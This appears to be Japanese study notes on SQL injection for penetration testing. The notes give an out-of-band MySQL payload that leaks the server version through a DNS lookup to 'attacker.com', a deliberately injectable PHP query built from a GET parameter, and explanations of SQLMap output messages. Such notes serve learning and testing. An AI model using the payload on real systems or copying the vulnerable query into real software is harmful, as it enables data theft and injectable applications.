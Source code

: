 Out-of-band SQL Injection
- DNSなどを使って外部に情報送信
- すべての手法が使えないときの最終手段
- 攻撃者視点：サーバーがDNS問い合わせをする仕様なら、非同期に情報抜き取り可能。
```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

## 基本的な利用シナリオ

- ペンテスターが最初に行う典型的な作業は、ユーザー入力を受け付けているGETパラメータ（例：id）があるWebページを確認すること
- そこでSQLインジェクションの脆弱性があるかをテストし、可能であれば悪用してデータベースの情報を取得したり、ファイルシステムやOSコマンドにアクセスしたりする
```sql
$link = mysqli_connect($host, $username, $password, $database, 3306);
$sql = "SELECT * FROM users WHERE id = " . $_GET["id"] . " LIMIT 0, 1";
$result = mysqli_query($link, $sql);
if (!$result)
    die("<b>SQL error:</b> ". mysqli_error($link) . "<br>\n");
```

## SQLMapの出力内容
SQLMap出力の読み方まとめ
- スキャン開始直後の確認
	- `target URL content is stable`
		- レスポンスにブレがない → 分析しやすい状況
		- 繰り返し同じリクエストを送っても、レスポンスがほぼ変わらない=ページの内容が安定しているという意味
		- これにより、SQLインジェクションによる微細な変化を検出しやすくなるため、非常に重要な前提条件
	- `GET parameter 'id' appears to be dynamic
		- 値を変えるとレスポンスも変化 → SQL注入の可能性あり

- SQLiの兆候を検出したメッセージ
	- `might be injectable (possible DBMS: 'MySQL')`
		- エラーからMySQLっぽいと判定 → まだ確定ではない
	- `might be vulnerable to cross-site scripting (XSS) attacks`
		- SQLiではないが、XSSの可能性もあると教えてくれる

- データベースが推測された
	- `back-end DBMS is 'MySQL'`
		- 特定のDBに絞って効率的にテスト可能に

- 詳細テストに進む前の確認
	- `extend level and risk values?`
		- より多くのペイロードで深掘りしたい場合に有効

- テスト時の注意やヒント
	- `reflective value(s) found and filtering out`
		- ペイロードがそのまま表示されてる → 自動で除去して比較
	- `with --string=\"luther\"`
		- 特定の文字列を使ってTRUE/FALSEの判断をしてる

- 高度な手法での判定
	- `time-based comparison requires a larger statistical model`
		- レスポンスタイムを比較して注入を判断 → 時間がかかる
	- `ORDER BY technique appears to be usable`
		- UNIONを使うためのカラム数特定に役立つ
